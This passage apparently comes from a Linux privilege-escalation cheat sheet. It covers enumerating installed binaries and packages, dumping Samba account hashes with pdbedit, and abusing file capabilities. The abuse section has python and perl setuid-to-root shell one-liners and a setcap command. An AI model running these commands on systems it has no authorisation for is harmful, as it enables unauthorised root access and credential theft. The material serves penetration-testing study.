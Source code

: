 ```bash
ls -alh /usr/bin/ # Displays all binaries within /usr/bin/
ls -alh /sbin/ # Displays all binaries within /sbin/
ls -alh /usr/local/ # Displays all the content of /usr/local/
ls -alh /usr/local/bin/  # Displays all the content of /usr/local/
dpkg -l # Displays all Debian based packages
rpm -qa # Displays all RedHat based packages
```

#### Samba

Samba is a free software re-implementation of the SMB networking protocol.
Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller or as a domain member.

The [pdbedit](https://www.samba.org/samba/docs/current/man-html/pdbedit.8.html) program is used to manage the users accounts stored in the sam database and can only be run by root.

```bash
# Lists all the user accounts present in the users database.
pdbedit -L -v
# Lists all the user accounts present in the users database in a format compatible with the smbpasswd file format.
pdbedit -L -w
```

### Linux Capabilities

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

If you can use **/usr/sbin/setcap** or **/usr/bin/setcap** you can easily perform privilege escalation by doing the following

```bash
/usr/bin/setcap cap_setuid+ep /mybin
```

If you get capabilities in the hexadecimal, you can use [capsh](https://man7.org/linux/man-pages/man1/capsh.1.html) in order to translate that hexadecimal value towards capabilities in a human readable format

```bash
thomas@home# cat /proc/13/status | grep Cap
CapInh: 0000000000000000
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000
thomas@home# capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```
